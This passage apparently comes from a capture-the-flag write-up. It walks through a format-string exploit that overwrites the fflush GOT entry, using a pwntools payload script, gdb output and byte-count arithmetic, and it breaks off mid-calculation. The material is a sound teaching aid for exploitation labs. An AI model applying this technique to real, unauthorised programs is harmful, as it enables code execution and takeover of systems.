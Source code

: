 ```

#Establish the addresses which we will be writing to
fflush_adr0 = p32(0x804a028)
fflush_adr1 = p32(0x804a029)
fflush_adr2 = p32(0x804a02b)

#Establish the necissary offputs for our input, so we can write to the addresses
fmt_string0 = "%10$n"
fmt_string1 = "%11$n"
fmt_string2 = "%12$n"

#Form the payload
payload = fflush_adr0 + fflush_adr1 + fflush_adr2 + fmt_string0 + fmt_string1 + fmt_string2

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

and when we run the script, we and pass the process to  gdb:
```
gdb-peda$ b *0x80487dc
gdb-peda$ c
```

after the breakpoint:

```
Breakpoint 1, 0x080487dc in main ()
gdb-peda$ x/x 0x804a028
0x804a028:	0x52
gdb-peda$ x/w 0x804a028
0x804a028:	0x52005252
```

So we can see a couple of things. Firstly that we are writing to the first, second, and fourth byte of the `fflush` address. Secondly that the initial starting value we write is `0x52`. This is a problem since we need to write the value `0x0b` to the first byte, which is smaller than `0x52`. This can be fixed if instead we write `0x10b` to the first byte, whcih will overfow into the second byte. However it will leave the first byte equal to `0x0b`.

To calculate the amount of bytes we need to write, we can just use python:
```
>>> 0x10b - 0x52
185
```

So we will need to print 185 additional bytes for the first write. For the second write, we need to set the second and third bytes equal to `0x0487`. Since we added 185 bytes to the first write, it should write 185 + 0x52 = 267 bytes by default. So in order to reach `0x0487` we will need to print an additional `0x0487 - 267 = 892` bytes to write the appropriate value.

Lastly we just have to figure out the amount of bytes we need to write to set the fourth byte euqal to `0x08`. Of course by now this write is going to overflow into other bytes outside of this address, howver it shouldn't stop the exploit. Write now it should write `892 + 267 = 1159` bytes of data without us adding anything. let's use python to see how many more additional bytes we will need to print, in order for the last byte of the hex string we write to be `0x08`.
